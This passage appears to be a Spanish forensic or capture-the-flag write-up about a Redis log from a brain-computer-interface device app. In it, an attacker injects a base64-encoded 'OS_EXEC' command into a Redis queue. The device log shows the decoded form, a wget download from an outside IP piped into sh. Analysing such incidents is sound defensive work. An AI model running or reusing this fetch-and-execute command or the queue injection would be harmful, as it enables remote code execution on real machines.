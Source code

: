 ```bash 
 59 1743507530.492892 [0 127.0.0.1:43100] "rpush" "analyticsLogs" "{\"timestamp\":\"2025-04-01T11:38:50.492Z\",\"ip\":\"::ffff:127.0.0.1\",\"route\":\"/analytics\"}"
 60 1743507549.699232 [0 127.0.0.1:43100] "rpush" "bci_commands" "MOVE_UP|"
 61 1743507549.700227 [0 [::1]:41164] "blpop" "bci_commands" "0"
 62 1743507549.701175 [0 127.0.0.1:43100] "rpush" "bci_commands" "MOVE_DOWN|"
 63 1743507549.701481 [0 [::1]:41164] "blpop" "bci_commands" "0"
 64 1743507549.701957 [0 127.0.0.1:43100] "rpush" "bci_commands" "MOVE_LEFT|"
 65 1743507549.702223 [0 [::1]:41164] "blpop" "bci_commands" "0"
 66 1743507549.702572 [0 127.0.0.1:43100] "rpush" "bci_commands" "MOVE_RIGHT|"
 67 1743507549.702797 [0 [::1]:41164] "blpop" "bci_commands" "0"
 68 1743507558.556141 [0 127.0.0.1:45958] "PING"
 69 1743507561.220381 [0 127.0.0.1:45972] "KEYS" "*"
 70 1743507562.237012 [0 127.0.0.1:45982] "SET" "test" "test"
 71 1743507566.415465 [0 127.0.0.1:34502] "RPUSH" "bci_commands" "OS_EXEC|d2dldCBodHRwOi8vMTg1LjIwMi4yLjE0Ny9oNFBsbjQvcnVuLnNoIC1PLSB8IHNo|f1f0c1feadb5abc79e700cac7ac63cccf91e818ecf693ad707    3e3a448fa13bbb"
```

Se ve que el atacante lanzó un ping a lo que podría ser un intento del atacante para comunicarse con lainstancia de redis, depués ya vemos un comando que parece estar encodeado.

<p style="#00ff00">OS_EXEC|d2dldCBodHRwOi8vMTg1LjIwMi4yLjE0Ny9oNFBsbjQvcnVuLnNoIC1PLSB8IHNo|f1f0c1feadb5abc79e700cac7ac63cccf91e818ecf693ad7073e3a448fa13bbb</p>

---
**task 15**

Una vez descodificado, ¿cuál es el comando?

Para esto revisamos los logs del dispositivo BCI, y encontramos lo siguiente: 


```bash 
38 2025-04-01 11:39:26 BCI (Device): Executing OS command: wget http://185.202.2.147/h4Pln4/run.sh -O- | sh
 39 2025-04-01 11:39:26 BCI (Device): Command output: sh: 1: wget: not found
```
